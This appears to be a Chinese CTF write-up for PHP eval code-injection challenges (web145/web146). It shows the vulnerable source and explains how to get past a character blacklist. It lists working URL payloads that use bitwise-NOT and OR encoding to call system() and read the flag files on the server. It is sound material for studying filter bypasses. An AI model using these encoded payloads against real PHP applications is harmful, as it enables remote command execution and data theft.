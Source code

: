 ```
eval("return 1?phpinfo():1;");
```

这里考察了三目运算符，这里是可以执行phpinfo()的

```
?v1=1&v3=?(~%8F%97%8F%96%91%99%90)():&v2=1
```

这样可以执行phpinfo()

payload

```
?v1=1&v3=?(~%8c%86%8c%8b%9a%92)(~%8b%9e%9c%df%99%d5):&v2=1
```



### web146

```
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\:|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
} 
```

过滤了冒号，无法使用三目运算符，但是可以使用等号和位运算符

```
eval("return 1==phpinfo()||1;");
```

这里可以执行phpinfo()

**payload**

```
?v1=1&v3===(~%8c%86%8c%8b%9a%92)(~%8b%9e%9c%df%99%d5)||&v2=1

?v1=1&v3=|('%13%19%13%14%05%0d'|'%60%60%60%60%60%60')('%14%01%03%20%06%02'|'%60%60%60%20%60%28')|&v2=1

?v1=1&v3=|(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)|&v2=1
```
